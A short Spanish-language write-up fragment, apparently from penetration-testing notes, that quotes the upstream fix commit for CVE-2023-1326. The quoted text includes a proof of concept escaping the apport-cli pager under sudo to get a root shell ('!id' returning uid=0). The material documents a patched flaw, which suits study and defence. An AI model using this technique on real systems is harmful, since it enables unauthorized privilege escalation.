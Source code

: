 ![](HTML%20import/Attachments/Selection_046.png)

La siguiente prueba de concepto nos puede proporcionar un terminal con privilegios root:

```
The apport-cli supports view a crash. These features invoke the default
pager, which is likely to be less, other functions may apply.

It can be used to break out from restricted environments by spawning an
interactive system shell. If the binary is allowed to run as superuser
by sudo, it does not drop the elevated privileges and may be used to
access the file system, escalate or maintain privileged access.

apport-cli should normally not be called with sudo or pkexec. In case it
is called via sudo or pkexec execute `sensible-pager` as the original
user to avoid privilege elevation.

Proof of concept:

$ sudo apport-cli -c /var/crash/xxx.crash
[...]
Please choose (S/E/V/K/I/C): v
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)

This fixes [CVE-2023-1326](https://github.com/advisories/GHSA-qgrc-7333-5cgx "CVE-2023-1326").

Bug: [https://launchpad.net/bugs/2016023](https://launchpad.net/bugs/2016023)
Signed-off-by: Benjamin Drung <benjamin.drung@canonical.com>
```
